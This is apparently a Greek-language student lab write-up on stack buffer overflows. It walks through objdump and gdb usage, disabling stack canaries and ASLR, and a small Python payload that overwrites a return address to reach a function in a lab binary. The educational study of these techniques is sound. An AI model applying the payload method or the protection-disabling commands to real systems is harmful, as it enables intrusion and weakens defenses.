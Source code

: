 # Εισαγωγή σε Buffer Overflow Attacks

## Διαλέξεις

- [Διάλεξη 1](https://delos.uoa.gr/opendelos/videolecture/show?rid=c9554f73)
- [Διάλεξη 2](https://delos.uoa.gr/opendelos/videolecture/show?rid=5ddddcb3)

## Περιεχόμενο

Στις παραπάνω διαλέξεις εξετάσαμε:

1. **Εισαγωγή στην x86 Assembly**: Μια σύντομη επισκόπηση της αρχιτεκτονικής και των βασικών εντολών.
2. **Ανάλυση προγραμμάτων μέσω εργαλείων**:
   - Χρήση του `objdump` για αποσυναρμολόγηση (disassembly) εκτελέσιμων αρχείων.
   - Χρήση του `gdb` για δυναμική ανάλυση και debugging.
3. **Εκμετάλλευση Buffer Overflow**:
   - Πώς μπορούμε να εκμεταλλευτούμε σφάλματα διαχείρισης μνήμης.
   - Επιθέσεις buffer overflow και τρόποι πρόκλησής τους.

Οι παραπάνω τεχνικές αποτελούν θεμελιώδεις αρχές στην ασφάλεια συστημάτων και την ανάλυση κακόβουλου λογισμικού.

---

## Εισαγωγή στο objdump και ανάλυση του buf0

Το `objdump` είναι ένα εργαλείο που μας επιτρέπει να αναλύσουμε το περιεχόμενο εκτελέσιμων αρχείων και να δούμε τη δομή τους. Η επιλογή `-d` στο `objdump` σημαίνει decompile και χρησιμοποιείται για την αποσυναρμολόγηση ενός εκτελέσιμου αρχείου.

Όταν χρησιμοποιούμε το `objdump -d buf0`, μπορούμε να βρούμε τη διεύθυνση της συνάρτησης `thank_you`. Ωστόσο, αυτές οι διευθύνσεις είναι relative προς τη βάση του εκτελέσιμου αρχείου και μπορεί να αλλάξουν κατά την εκτέλεση λόγω του ASLR (address space layout randomization).

Για να βρούμε τη σωστή διεύθυνση κατά την εκτέλεση του προγράμματος, πρέπει να χρησιμοποιήσουμε το `gdb`.

### Βήματα για να βρούμε τη σωστή διεύθυνση της συνάρτησης `thank_you`:

1. **Χρήση του `objdump`**:

   ```sh
   objdump -d buf0 | grep thank_you
   ```

   Αυτό θα επιστρέψει τη relative διεύθυνση της συνάρτησης στο εκτελέσιμο.

2. **Χρήση του `gdb` για να βρούμε τη πραγματική διεύθυνση**:

   ```sh
   gdb ./buf0
   break main
   run <όρισμα>
   info address thank_you
   ```

   Αυτή η εντολή θα επιστρέψει την πραγματική διεύθυνση της συνάρτησης στη μνήμη κατά την εκτέλεση του προγράμματος.

---

### Χρήσιμες Εντολές `gdb`

- Προβολή της τιμής στη διεύθυνση που δείχνει ο δείκτης στοίβας:

  ```sh
  x/x $rsp  # Για x86_64, προβολή 4 bytes (word)
  x/gx $rsp  # Για x86_64, προβολή 8 bytes (giant word)
  x/x $esp  # Για x86
  ```

  Η εντολή `x/x $rsp` θα εμφανίσει την τιμή στη διεύθυνση που δείχνει ο δείκτης στοίβας (stack pointer) ως word (4 bytes). Για να δείτε 8 bytes (64 bits), χρησιμοποιήστε την εντολή `x/gx $rsp`.

- Προβολή της τιμής ως string:

  ```sh
  x/s $rsp  # Για x86_64
  x/s $esp  # Για x86
  ```

- Προβολή των 5 πρώτων τιμών του δείκτη στοίβας:

  ```sh
  x/5x $rsp  # Για x86_64 ή x86
  ```

- Αν μία από αυτές τις τιμές είναι δείκτης σε string:

  ```sh
  x/s 0x7ffff7b0  # Αν 0x7ffff7b0 είναι διεύθυνση σε string
  ```

- Προβολή της εντολής που δείχνει ο δείκτης εντολών:

  ```sh
  x/i $rip  # Για x86_64
  x/i $eip  # Για x86
  ```

- Προβολή των επόμενων 5 εντολών από την τοποθεσία του δείκτη εντολών:

  ```sh
  x/5i $rip  # Για x86_64
  x/5i $eip  # Για x86
  ```

- Αποσυναρμολόγηση της συνάρτησης `main`:

  ```sh
  disas main
  ```

- Προβολή των περιοχών μνήμης του προγράμματος:

  ```sh
  info proc mappings
  ```

- Τοποθέτηση σημείου διακοπής σε συγκεκριμένη διεύθυνση:

  ```sh
  break *0xADDRESS
  ```

  Για παράδειγμα, αν θέλετε να τοποθετήσετε ένα σημείο διακοπής στη διεύθυνση `0x5555555551c5` μέσα στη συνάρτηση `thank_you`, χρησιμοποιήστε την εντολή:

  ```sh
  break *0x5555555551c5
  ```

---

## Απενεργοποίηση Μηχανισμών Προστασίας Στοίβας

Για να μπορέσει να τρέξει το παραπάνω exploit, θα χρεαστεί να απενεργοποιήσουμε κάποιους μηχανισμούς προστασίας στοίβας που χρησιμοποιεί το σύστημα μας όπως τα stack canaries και το ASLR.

### Απενεργοποίηση Stack Canaries

Επαναμεταγλώττίσε το ευάλωτο πρόγραμμα χωρίς προστασία στοίβας. Αν έχεις τον πηγαίο κώδικα, χρησιμοποίησε την επιλογή `-fno-stack-protector` με το `gcc`:

```sh
gcc -fno-stack-protector -o vulnerable_program source_code.c
```

### Απενεργοποίηση ASLR

Προσωρινή απενεργοποίηση του ASLR:

```sh
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Για να επανενεργοποιήσεις το ASLR μετά την ολοκλήρωση, εκτέλεσε:

```sh
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```

---

## Δημιουργία του Exploit

Για να δημιουργήσω το exploit, ακολούθησα τα παρακάτω βήματα:

1. **Ανάλυση της Στοίβας με το `gdb`**:

   - Έτρεξα το πρόγραμμα με `gdb` και τοποθέτησα ένα breakpoint μετά το `strcpy` στη συνάρτηση `print`.
   - Χρησιμοποίησα την εντολή `x/16gx $rsp` για να δω τις 16 τελευταίες μεγάλες λέξεις των 64 bytes που έχει αποθηκευμένη η στοίβα.

   ```sh
   gdb ./buf0
   break *print+20  # Breakpoint μετά το strcpy
   run <όρισμα>
   x/16gx $rsp
   ```

2. **Εύρεση του Offset**:

   - Τοποθέτησα επίτηδες την τιμή `0xffffffff` στο buffer για να δω γρήγορα πού αποθηκεύεται.
   - Χρησιμοποίησα την εντολή `disas main` για να βρω τη διεύθυνση της επόμενης εντολής μετά το `call`.
   - Υπολόγισα το offset από την αρχή του buffer μέχρι τη διεύθυνση επιστροφής.

3. **Δημιουργία του Payload**:

   - Δημιούργησα ένα Python script για τη δημιουργία του payload.

   ```python
   // filepath: /CTF-Journal/Notes/buffer_overflow/augerinos_lecture4/exploit.py
   import sys
   offset = b"AAAAAAAA" * 9
   buffer = offset + b"\xc9\x51\x55\x55\x55\x55\x00\x00"  # 0x5555555551c9

   sys.stdout.buffer.write(buffer)
   ```

4. **Εκτέλεση του Exploit**:

   - Έτρεξα το πρόγραμμα με το payload.

   ```sh
   python3 exploit.py > payload
   sudo ./buf0 $(cat payload)
   ```

Με αυτά τα βήματα, κατάφερα να εκμεταλλευτώ το buffer overflow και να εκτελέσω τη συνάρτηση `thank_you`, αποκτώντας root πρόσβαση.

---

## Συμπέρασμα

Αν και χρειάστηκε να απενεργοποιήσω μηχανισμούς προστασίας και να εκτελέσω το πρόγραμμα με δικαιώματα root, αυτή η άσκηση ήταν πολύτιμη για την κατανόηση των buffer overflow επιθέσεων. Μέσα από αυτή τη διαδικασία, έμαθα πώς να αναλύω τη μνήμη ενός προγράμματος, να βρίσκω ευπάθειες και να δημιουργώ exploits. Αυτές οι γνώσεις είναι θεμελιώδεις για την ασφάλεια συστημάτων και την ανάλυση κακόβουλου λογισμικού. Επιπλέον, η κατανόηση των μηχανισμών προστασίας και πώς να τους παρακάμπτουμε είναι κρίσιμη για την ανάπτυξη πιο ασφαλών συστημάτων στο μέλλον.
